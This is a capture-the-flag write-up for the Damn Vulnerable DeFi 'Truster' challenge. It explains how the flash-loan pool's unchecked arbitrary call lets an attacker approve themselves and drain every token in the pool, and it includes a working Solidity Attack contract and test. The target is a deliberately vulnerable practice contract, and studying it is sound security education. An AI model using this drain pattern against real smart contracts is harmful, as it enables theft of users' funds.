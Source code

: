 You can check the challenge [here](https://www.damnvulnerabledefi.xyz/challenges/truster/).

This contract is a pool that offers flash loans for free, but it does not implement the EIP-3156 standard, making it vulnerable.

```solidity
	Line: 39 function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)

```

The function signature above takes the address of the borrower and the target address along with data to pass. We can pass an arbitrary target contract with arbitrary data (function selector + arguments), and the pool will execute it for us, allowing us to approve our address to withdraw all the tokens from the pool. The payload would be:

```solidity
bytes memory payload = abi.encodeWithSignature("approve(address,uint256)", address(this), token.balanceOf(address(pool)));
```

The player should make only one transaction, so we can execute the attack in a contract’s constructor.

The Solution would be:

```solidity
contract Attack {
    constructor(TrusterLenderPool pool, DamnValuableToken token, address recovery) {
        bytes memory payload = abi.encodeWithSignature("approve(address,uint256)", address(this), token.balanceOf(address(pool)));

        pool.flashLoan(0, address(this), address(token), payload);

        token.transferFrom(address(pool), recovery, token.balanceOf(address(pool)));
    }
}

function test_truster() public checkSolvedByPlayer {
        Attack attack = new Attack(pool, token, recovery);
    }
```